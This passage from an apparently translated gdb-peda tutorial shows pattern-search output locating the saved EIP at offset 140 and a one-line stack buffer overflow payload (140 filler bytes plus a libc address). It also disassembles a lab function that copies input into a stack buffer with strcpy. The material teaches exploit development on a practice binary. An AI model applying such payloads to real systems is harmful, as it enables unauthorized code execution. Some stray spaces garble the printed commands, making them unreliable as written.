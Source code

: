 ```shell
gdb-peda$ pattern search 
 Registers contain pattern buffer:
EIP+0 found at offset: 140
EBP+0 found at offset: 136
ECX+52 found at offset: 69
Registers point to pattern buffer:
[EBX] -> offset 192 - size ~8
[ESP] -> offset 144 - size ~56
Pattern buffer found at:
0xf7fd7034: offset 42 - size 158 (mapped)
0xffffd240: offset 0 - size 200 ($ sp + -0x90 [-36 dwords])
0xffffd523: offset 0 - size 200 ($ sp + 0x253 [148 dwords])
References to pattern buffer found at:
0xffffd234: 0xffffd240 ($ sp + -0x9c [-39 dwords])
0xf7e52a17: 0xffffd523 (/lib32/libc-2.19.so)
0xffffd398: 0xffffd523 ($ sp + 0xc8 [50 dwords])
```

Once this information has been retrieved, all that remains is to build our exploit as we have already seen:
{: .text-justify}

```shell
gdb-peda$ run $ (python -c 'print "a" * 140 + "\xe0\x6d\xe7\xf7 "')
```

## PDISASS

The **gdb** **disass** command , or its improved by peda version **pdisass**, displays a disassembled function, that is, the assembler translation of the specified **C** function:
{: .text-justify}

```shell
gdb-peda$ pdisass funcMyLife
Dump of assembler code for function funcMyLife:
0x08048514 <+0>: push ebp
0x08048515 <+1>: mov ebp, esp
0x08048517 <+3>: sub esp, 0x88
0x0804851d <+9>: sub esp, 0xc
0x08048520 <+12>: push 0x8048695 
0x08048525 <+17>: call 0x8048350 <puts @ plt>
0x0804852a <+22>: add esp, 0x10
0x0804852d <+25>: sub esp, 0xc
0x08048530 <+28>: push 0x80486b4 
0x08048535 <+33>: call 0x8048350 <puts @ plt>
0x0804853a <+38>: add esp, 0x10
0x0804853d <+41>: sub esp, 0xc
0x08048540 <+44>: push 0x80486d8 
0x08048545 <+49>: call 0x8048350 <puts @ plt>
0x0804854a <+54>: add esp, 0x10
0x0804854d <+57>: sub esp, 0x8
0x08048550 <+60>: push DWORD PTR [ebp + 0x8]
0x08048553 <+63>: lea eax, [ebp-0x88]
0x08048559 <+69>: push eax 
0x0804855a <+70>: call 0x8048340 <strcpy @ plt>
0x0804855f <+75>: add esp, 0x10
0x08048562 <+78>: sub esp, 0x8
0x08048565 <+81>: lea eax, [ebp-0x88]
0x0804856b <+87>: push eax
0x0804856c <+88>: push 0x8048701 
0x08048571 <+93>: call 0x8048330 <printf @ plt>
0x08048576 <+98>: add esp, 0x10
0x08048579 <+101>: sub esp, 0xc
0x0804857c <+104>: push 0x8048714 
0x08048581 <+109>: call 0x8048350 <puts @ plt>
```